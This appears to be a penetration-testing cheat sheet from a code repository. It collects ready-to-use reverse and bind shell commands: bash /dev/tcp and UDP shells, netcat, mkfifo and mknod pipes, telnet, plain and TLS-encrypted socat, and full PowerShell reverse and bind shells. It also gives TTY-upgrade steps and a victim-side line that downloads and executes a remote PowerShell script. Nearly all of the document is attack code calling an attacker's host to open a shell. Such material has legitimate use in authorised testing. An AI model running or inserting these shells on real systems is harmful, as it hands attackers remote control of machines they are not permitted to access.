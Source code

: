 ## Linux fully interactive tty

```bash
python -c 'import pty; pty.spawn("/bin/bash")' || python3 -c 'import pty; pty.spawn("/bin/bash")'
# CTRL + Z
stty raw -echo
fg
reset
export SHELL=/bin/bash && export TERM=xterm-256color
# open up a new terminal and run the below to get the stty size command to paste
size=$(stty size); rows=$(echo $size | cut -d' ' -f1); cols=$(echo $size | cut -d' ' -f2); echo "stty rows $rows columns $cols"
```

## bash: normal shell
```bash
bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1
```
## bash: non-blocking shell
```bash
bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1 &
```
## bash: using `exec` 
```bash
exec 5<>/dev/tcp/<LHOST>/<LPORT>; cat <&5 | while read line; do $line 2>&5 >&5; done
```
## Bash/Netcat:
```bash
nc -nv <LHOST> <LPORT> -e /bin/bash
```
## bash: mkfifo:
```bash
rm /tmp/pipe; mkfifo /tmp/pipe; /bin/sh -i < /tmp/pipe 2>&1 | nc <LHOST> <LPORT> > /tmp/pipe; rm /tmp/pipe
```
## bash: mknod:
```bash
rm /tmp/pipe; mknod /tmp/pipe p 2>/dev/null && nc <LHOST> <LPORT> 0</tmp/pipe | /bin/bash 1>/tmp/pipe; rm /tmp/pipe
```
## Bash UDP
```bash
sh -i >& /dev/udp/<LHOST>/<LPORT> 0>&1
```
## Telnet
```bash
rm /tmp/pipe; mknod /tmp/pipe p && telnet <LHOST> <LPORT> 0</tmp/pipe | /bin/bash 1>/tmp/pipe; rm /tmp/pipe
```
---
## socat: reverse shell (with forking and address reuse)
### on attacker
```bash
socat -d -d TCP4-LISTEN:<LPORT>,reuseaddr,fork STDOUT
```
### on victim
```bash
socat TCP4:<LHOST>:<LPORT> EXEC:/bin/bash
```
**OR**
```bash
nc -nv <LHOST> <LPORT> -e /bin/bash
```
## socat: encrypted reverse shell (with forking and address reuse)
### step #1: on attacker machine, generate a create a key and a certificate associated with it.
```bash
openssl req -newkey rsa:2048 -nodes -keyout socat.key -x509 -days 1000 -out socat.crt
```
### step #2: on attacker machine,create a pem file from the key and crt files
```bash
cat socat.key socat.crt > socat.pem
```
### step #3: on attacker machine, listen on a port of your choice
```bash
socat -d -d OPENSSL-LISTEN:<LPORT>,cert=socat.pem,verify=0,reuseaddr,fork STDOUT
```
### step #4: on the victim, send back a bash shell
```bash
socat OPENSSL:<LHOST>:<LPORT>,verify=0, EXEC:/bin/bash
```
## socat: port forwarding
### scenario: if web port port 8000 is only listening locally on a machine that has socat. we can bind it to the outside on port 1234 and expose it to the outside:
```bash
socat TCP-LISTEN:1234,fork,reuseaddr, tcp:127.0.0.1:8000 &
```
### if we curl the address on port 1234
```bash
curl http://192.168.145.131:1234/index.html
```
### we get a response
```
<h1>hosted only internally</h1>
```
---

## Powershell reverse shell
```powershell
$lhost = '<LHOST>'
$lport = <LPORT>
$client = New-Object System.Net.Sockets.TCPClient($lhost,$lport);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
	$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
	$sendback = (iex $data 2>&1 | Out-String );
	$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
	$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
	$stream.Write($sendbyte,0,$sendbyte.Length);
	$stream.Flush();
}
$client.Close();
```

## Powershell bind shell
```
$lport = <LPORT>
$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',$lport)
$listener.start()
$client = $listener.AcceptTcpClient()
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535|%{0}
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i)
    $sendback = (iex $data 2>&1 | Out-String )
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> '
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
    $stream.Write($sendbyte,0,$sendbyte.Length)
    $stream.Flush()
}
$client.Close()
$listener.Stop()
```

## Windows better tty using `rlwrap`
1. install rlwrap using
```bash
apt install rlwrap
```
2. using rlwrap before your standard listener
```bash
rlwrap nc -lvnp <LPORT>
```

## Windows fully interactive (Windows 10 / Windows Server 2019 version 1809)
### on attacker machine:
```bash
stty raw -echo; (stty size; cat) | nc -lvnp <LPORT>
```
### on victim machine:
```powershell
IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell <LHOST> <LPORT>
```